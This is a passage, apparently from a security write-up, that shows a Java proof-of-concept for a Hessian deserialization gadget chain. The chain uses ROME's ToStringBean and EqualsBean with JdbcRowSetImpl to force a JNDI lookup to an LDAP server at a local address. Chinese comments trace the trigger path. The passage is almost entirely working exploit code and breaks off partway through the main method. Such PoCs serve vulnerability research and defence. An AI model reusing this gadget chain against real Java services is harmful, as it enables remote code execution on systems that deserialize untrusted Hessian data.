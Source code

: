 ### POC
```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/11 5:07 下午
 */
public class RomeGadget {

    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Object JDBCInject() throws Exception {

        // 反序列化时 ToStringBean.toString 会被调用, 触发 JdbcRowSetImpl.getDatabaseMetaData -> JdbcRowSetImpl.connect -> Context.lookup.
        String jndiUrl = "ldap://127.0.0.1:1389/fjkrsc";
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName(jndiUrl);
        jdbcRowSet.setMatchColumn("foo");
        return  jdbcRowSet;
    }

    public static void main(String[] args ) throws Exception {

        // 反序列化时 EqualsBean.beanHashCode 会被调用, 触发 ToStringBean.toString.
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, JDBCInject());
```